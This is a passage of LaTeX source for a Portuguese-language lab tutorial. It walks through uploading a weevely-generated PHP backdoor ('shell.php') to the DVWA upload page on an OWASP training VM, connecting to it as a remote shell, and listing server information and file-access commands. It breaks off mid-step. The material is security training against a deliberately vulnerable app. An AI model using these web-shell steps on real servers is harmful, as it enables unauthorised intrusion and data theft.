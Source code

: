 \documentclass[12pt]{article}
\begin{document}
\textbf{Exemplo de saída:}

\begin{lstlisting}
[*] Backdoor 'shell.php' generated successfully.
[*] Password: pass
\end{lstlisting}

\paragraph{Passo 3: Upload do Backdoor}

No navegador, acesse \texttt{http://[IP\_DA\_OWASP]/dvwa}, vá até a seção \textbf{Upload}, selecione \texttt{shell.php} e clique em \textbf{Upload}.

\paragraph{Passo 4: Conectar ao Shell Remoto}

\begin{lstlisting}
$ weevely http://[IP_DA_OWASP]/dvwa/hackable/uploads/shell.php pass
\end{lstlisting}

\textbf{Saída esperada:}

\begin{lstlisting}
weevely 4.5 connected to http://[IP_DA_OWASP]/dvwa/hackable/uploads/shell.php
weevely> 
\end{lstlisting}

\paragraph{Passo 5: Explorar o Servidor}

Listar comandos disponíveis:

\begin{lstlisting}
weevely> :help
Available commands:
  :system_info   Show server system information
  :ls            List files and directories
  :cat           Display file contents
  :upload        Upload a file
  :download      Download a file
\end{lstlisting}

Obter informações do sistema:

\begin{lstlisting}
weevely> :system_info
OS: Linux 5.15.0-80-generic
Server IP: 10.0.2.5
PHP Version: 7.4.33
Document Root: /var/www/html
\end{lstlisting}

Listar diretórios do servidor:
\end{document}

